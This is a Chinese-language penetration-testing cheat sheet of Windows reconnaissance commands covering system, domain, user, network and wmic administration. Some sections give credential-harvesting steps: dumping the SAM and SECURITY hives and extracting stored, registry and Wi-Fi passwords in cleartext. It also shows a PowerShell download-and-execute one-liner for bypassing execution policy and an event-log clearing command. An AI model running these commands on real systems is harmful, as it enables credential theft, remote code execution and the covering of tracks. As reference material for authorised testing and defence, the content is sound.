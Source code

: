 信息收集 - Windows
========================================

基本命令
----------------------------------------
- 查询所有计算机名称 ``dsquery computer``
- 查看配置 ``systeminfo``
- 查看版本 ``ver``
- 进程信息 ``tasklist /svc``
- 查看所有环境变量 ``set``
- 查看计划任务 ``schtasks /QUERY /fo LIST /v``
- 查看安装驱动 ``DRIVERQUERY``
- 查看操作系统架构 ``wmic os get osarchitecture``
- 查看逻辑盘 ``wmic logicaldisk get caption``
- 查看安装的软件 ``wmic product get name,version``
- 查看Powershell版本：``REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion``

权限查询
----------------------------------------
- 访问权限 ``accesschk.exe [administrator] c:\windows\hh.exe``
- 服务权限 ``accesschk.exe -cu [administrator] *``
- 显示无权访问指定注册表对象 ``accesschk.exe -knsu [administrator] hklm\software``
- 显示可操作的全局对象 ``accesschk64.exe [administrator] -ou \``

系统服务管理-sc
----------------------------------------
- start
	+ 用于启动、停止或暂停服务
- stop
	+ 用于停止服务
- query
	+ 用于查询服务的状态
	+ ``Sc [ServerName] query [ServiceName] [type= {driver | service | all}] [type= {own | share | interact | kernel | filesys | rec | adapt}] [state={active | inactive | all}] [bufsize= BufferSize] [ri= ResumeIndex] [group= GroupName]``
		::
		
			ServerName：远程服务器名称须使用 UNC 格式（"\myserver"）。
			ServiceName：指定服务名。
			type= {driver | service | all}
			type= {own | share | interact | kernel | filesys | rec | adapt}：指定要枚举的服务类型或驱动程序类型。
			state= {active | inactive | all}:指定要枚举的服务的已开始状态。
- config
	+ 用于更改服务的配置（永久）
	+ ``sc config stisvc start= demand``
- create
	+ 用于创建新服务
	+ ``sc create TestService binPath= "C:\test.exe"``
- delete
	+ 用于删除指定服务
	+ ``sc delete TestService``

域信息
----------------------------------------
- 获取当前组的计算机名 ``net view``
- 查看所有域 ``net view /domain``
- 查看域中的用户名 ``dsquery user``
- 查询域组名称 ``net group /domain``
- 查询域管理员 ``net group "Domain Admins" /domain``
- 查看域控制器 ``net group "Domain controllers"``
- 查询Kerberos票证缓存 ``klist``

用户信息
----------------------------------------
- 查看用户 ``net user`` / ``whoami`` / ``whoami /all`` / ``echo %USERNAME% || whoami``
- 查看用户信息: ``net user <administrator>``
- 用户特权信息 ``whoami /priv``
- 查看当前权限 ``net localgroup administrators``
- 查看在线用户 ``qwinsta`` / ``query user`` / ``quser``
- 查看当前计算机名，全名，用户名，系统版本，工作 站域，登陆域 ``net config Workstation``

网络信息
----------------------------------------
- 域控信息
	+ ``nltest /dclist:xx``
	+ ``Get-NetDomain``
	+ ``Get-NetDomainController``
- 网卡信息 ``ipconfig``
- ARP表 ``arp -a``
- 路由表 ``route print``
- 监听的端口 ``netstat -ano``
- 查看netbios：``nbtscan 192.168.1.17``
- 防火墙状态及规则
	+ ``netsh firewall show config``
	+ ``netsh firewall show state``
- hosts文件

密码信息
----------------------------------------
+ 当前系统凭据
	- ``cmdkey /l``
+ REG导出SAM数据
	::
		
		reg save HKLM\SAM sam.hiv
		reg save HKLM\SYSTEM system.hiv
		reg save HKLM\SECURITY security.hiv
+ 系统文件查找
	- ``cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt``
	- ``findstr /si password *.xml *.ini *.txt *.config 2>nul >> results.txt``
	- ``findstr /spin "password" *.*``
+ 文件名查找
	- ``dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*``
	- ``where /R C:\ user.txt``
	- ``where /R C:\ *.ini``
+ 注册表搜索密码
	::
	
		REG QUERY HKLM /F "password" /t REG_SZ /S /K
		REG QUERY HKCU /F "password" /t REG_SZ /S /K

		reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
		reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
		reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
		reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
		reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
		reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

		reg query HKLM /f password /t REG_SZ /s
		reg query HKCU /f password /t REG_SZ /s
+ unattend.xml
	::
	
		C:\unattend.xml
		C:\Windows\Panther\Unattend.xml
		C:\Windows\Panther\Unattend\Unattend.xml
		C:\Windows\system32\sysprep.inf
		C:\Windows\system32\sysprep\sysprep.xml
+ wifi密码
	- Find AP SSID: ``netsh wlan show profile``
	- Get Cleartext Pass: ``netsh wlan show profile <SSID> key=clear``
	- ``cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on``

主机敏感数据
----------------------------------------
- Pillager
	+ 项目地址：``https://github.com/qwqdanchun/Pillager``
	+ 运行后，在系统temp目录生成Pillager.tar.gz文件。

其他
----------------------------------------
+ wmic
	- 提供了从命令行接口和批命令脚本执行系统管理的支持
	- 查看补丁安装情况: ``wmic qfe get Caption,Description,HotFixID,InstalledOn``
	- 获取帮助
		+ ``wmic /?``
		+ 查看nic命令帮助：``wmic nic /?``
		+ 信息筛选：``wmic nic where NetConnectionStatus=2 get Name,MACAddress,NetConnectionStatus``
	- 查看杀软：``WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntivirusProduct Get displayName``
	- 查看启动项：``wmic startup get caption,command``
	- 进程管理
		+ 列出进程的核心信息：``wmic process list brief``
		+ 新建进程：``wmic process call create notepad``
		+ 结束进程
			- ``wmic process \[handle/PID\] delete``
			- ``wmic process \[handle/PID\] call terminate``
			- ``wmic process where "name='svchost.exe' and ExecutablePath<>'C:\\\\WINDOWS\\\\system32\\\\svchost.exe'" call Terminate``
			- ``wmic process where "name='svchost.exe' and ExecutablePath='C:\\\\WINDOWS\\\\svchost.exe'" call Terminate``
	- BIOS管理
		+ 查看bios版本型号：``wmic bios get name,SMBIOSBIOSVersion,manufacturer``
	- 计算机系统管理
		+ 查看硬件，操作系统信息：``wmic computersystem get Name,workgroup,NumberOfProcessors,manufacturer,Model``
		+ 查看系统启动选项boot.ini的内容：``wmic computersystem get SystemStartupOptions``
		+ 更改计算机名abc为123：``wmic computersystem where “name=‘abc’” call rename 123``
		+ 改工作组google为MyGroup：``wmic computersystem where “name=‘google’” call joindomainorworkgroup “”,"",“MyGroup”,1``
	- CPU 管理
		+ 查看cpu型号：``wmic cpu get name``
	- 文件管理
		+ 查找c盘下windows目录(不包括子目录)下的system.ini文件：``wmic datafile where "drive='c:' and path='\\windows\\' and FileName='system' and Extension='ini'" get Name``
		+ 删除e盘下文件大小大于10M的.cmd文件：``wmic datafile where "drive='e:' and Extension='cmd' and FileSize>'10000000'" call delete``
		+ 复制e盘下test目录(不包括子目录)下的cc.cmd文件到e:\,并改名为aa.bat：``wmic datafile where "drive='e:' and path='\\test\\' and FileName='cc' and Extension='cmd'" call copy "e:\aa.bat"``
		+ 改名c:\hello.txt为c:\test.txt：``wmic datafile "c:\\hello.txt" call rename c:\test.txt``
	- 监视器管理
		+ 获取屏幕像素：``wmic DESKTOPMONITOR where Status='ok' get ScreenHeight,ScreenWidth``
		+ 获取磁盘型号大小：``wmic DISKDRIVE get Caption,size,InterfaceType``
	- 系统环境设置管理
		+ 获取temp环境变量：``wmic ENVIRONMENT where "name='temp'" get UserName,VariableValue``
		+ 更改path环境变量值,新增e:\tools：``wmic ENVIRONMENT where "name='Path' and username='<SYSTEM>'" set VariableValue="%path%;e:\tools"``
		+ 新增系统环境变量home,值为%HOMEDRIVE%%HOMEPATH%：``wmic ENVIRONMENT create name="home",username="administrator",VariableValue="%HOMEDRIVE%%HOMEPATH%"``
		+ 删除home环境变量：``wmic ENVIRONMENT where "name='home'" delete``
	- 文件目录系统项目管理
		+ 查找c盘下名为windows的目录（不包含子目录）：``wmic FSDIR where "drive='c:' and path='\\windows\\'" list``
		+ 删除e:\test目录下除过目录abc的所有目录：``wmic FSDIR where "drive='e:' and path='\\test\\' and filename<>'abc'" call delete``
		+ 删除c:\good文件夹：``wmic fsdir "c:\\good" call delete``
		+ 重命名c:\good文件夹为abb：``wmic fsdir "c:\\good" rename "c:\\abb"``
	- 本地储存设备管理
		+ 获取硬盘系统格式、总大小、可用空间等：``wmic LOGICALDISK get name,Description,filesystem,size,freespace``
	- 网络界面控制器 (NIC) 管理
		+ 获取已连接网卡的名字、速率：``wmic NIC where NetEnabled=true get Name, Speed``
		+ 获取已IP地址网卡的index、caption：``wmic nicconfig where IPEnabled="true" get Index, Caption``
		+ 设置index =1的网卡，静态IP地址：``wmic nicconfig where Index=1 call EnableStatic ("1.2.3.4"),("255.255.255.0")``
		+ 设置index =1的网卡，采用DHCP方式获取IP地址：``wmic nicconfig where Index=1 call EnableDHCP``
	- 操作系统管理
		+ 设置系统时间：``wmic os where(primary=1) call setdatetime 20070731144642.555555+480``
		+ 更改当前页面文件(pagefile.sys)初始大小和最大值：``wmic PAGEFILESET set InitialSize="512",MaximumSize="512"``
		+ 页面文件设置到d:\下,执行下面两条命令：``wmic pagefileset create name='d:\pagefile.sys',initialsize=512,maximumsize=1024``,``wmic pagefileset where "name='c:\\pagefile.sys'" delete``
	- 安装包任务管理
		+ 卸载.msi安装包：``wmic PRODUCT where "name='Microsoft .NET Framework 1.1' and Version='1.1.4322'" call Uninstall``
		+ 修复.msi安装包：``wmic PRODUCT where "name='Microsoft .NET Framework 1.1' and Version='1.1.4322'" call Reinstall``
	- 服务程序管理
		+ 查看服务列表：``wmic service list brief``
		+ 运行spooler服务：``wmic SERVICE where name="Spooler" call startservice``
		+ 停止spooler服务：``wmic SERVICE where name="Spooler" call stopservice``
		+ 暂停spooler服务：``wmic SERVICE where name="Spooler" call PauseService``
		+ 更改spooler服务启动类型[auto|Disabled|Manual] 释[自动|禁用|手动]：``wmic SERVICE where name="Spooler" set StartMode="auto"``
		+ 删除服务：``wmic SERVICE where name="test123" call delete``
	- 共享资源管理
		+ 删除共享：``wmic SHARE where name="e$" call delete``
		+ 添加共享：``WMIC SHARE CALL Create "","test","3","TestShareName","","c:\test",0``
	- 声音设备管理
		+ ``wmic SOUNDDEV list``
	- 用户登录到计算机系统时自动运行命令的管理
		+ 查看msconfig中的启动选项：``wmic STARTUP list``
		+ 基本服务的系统驱动程序管理：``wmic SYSDRIVER list``
	- 用户帐户管理
		+ 更改用户administrator全名为admin：``wmic USERACCOUNT where name="Administrator" set FullName="admin"``
		+ 更改用户名admin为admin00：``wmic useraccount where "name='admin'" call Rename admin00``
+ PowerShell
	- 简介
		+ 一个PowerShell脚本其实就是一个简单的文本文件，其扩展名为".ps1"。PowerShell脚本文件中包含一系列命令，每个命令为独立一行。
		+ 执行策略：为防止恶意脚本，默认情况下策略为 **不能执行** 。
		+ 使用 ``get-executionPolicy`` 获取当前执行策略。
			::
			
				Restricted：脚本不能运行（默认设置）
				RemoteSigned：在本地创建脚本可以运行，但从网上下载的不能（拥有数字证书签名除外）
				AllSigned：仅当脚本受信任的发布者签名时才能运行
				Unrestricted：允许所有脚本运行
				
				设置策略：set-ExecutionPolicy <policy name>
		+ 管道：``get-process p* | stop-process``
	- 绕过执行策略
		+ 管道：``Type helloword.ps1 |powershell.exe -NoP -``
		+ 网络下载：``powershell -nop -c "iex(New-Object Net.WebClient).DowndloadString('url')"``
		+ bypass方式：``powershell.exe -ExecutionPolicy bypass -File helloworld.ps1``
		+ 加密方式：即encodedCommand方式。
		+ 隐藏执行：``PowerShell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -File xxx.ps1``
	- 查看版本：``get-host``,``$PSVersionTable.PSVERSION``
	- 查看支持命令：``get-command``
		+ 查看命令帮助：``Get-Help Enter-PSSession``
	- 获取所有进程：``get-process``
	- -command 命令参数
		+ 此方法不需要一个交互式窗口，它适用于简单脚本执行，对于复杂脚本会发生解析错误。
		+ ``PowerShell -command "Write-Host 'you are good.'"``
	- -encodedCommand命令参数
		+ 此方法的输入内容是Unicode/base64 encod字符串，使用以下方式编码
			::
			
				$command = 'dir "c:\program files" '
				$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
				$encodedCommand = [Convert]::ToBase64String($bytes)
				$encodedCommand即为最终的字符串。
		+ ``PowerShell -encodedCommand ZABpAHIAIAAiAGMAOgBcAHAAcgBvAGcAcgBhAG0AIABmAGkAbABlAHMAIgAgAA==``
	- 运行远程命令
		+ WS-Management协议:为计算机设备远程交换管理数据提供了一个公开的标准，在Windows上，微软通过WinRM实现。
		+ 检查WinRM服务：``Get-Service WinRM``
		+ 启动并配置系统接收远程命令：``Enable-PSRemoting –Force``
			::
			
				如果你的计算机已经加入了域，那么上面的配置就可以了。
				对于没有加入域的计算机还需要进行信任设置，然后重启 WinRM 服务：
				Set-Item wsman:\localhost\client\trustedhosts *
				Restart-Service WinRM
		+ 测试远程命令：``Test-WsMan xxx.xxx.xxx.xxx``
		+ 创建远程连接session：``Enter-PSSession -ComputerName my-svr -Credential ****(用户名)***``
		+ 远程执行单个命令：``Invoke-Command -ComputerName cd-lsr-svr -ScriptBlock { Get-Service WinRM } -credential ****(用户名)***``
+ 日志与事件信息
	- ``wevtutil``
		+ 显示系统日志配信信息：``wevtutil gl System /f:xml``
		+ 显示系统日志状态：``wevtutil gli System``
		+ 删除日志：``wevtutil cl system/application``
		+ 显示应用程序日志三个最新事件：``wevtutil qe Application /c:3 /rd:true /f:text``
		+ 导出系统日志：``wevtutil epl System C:\backup\system0506.evtx``
+ 注册表信息
	- ``reg``
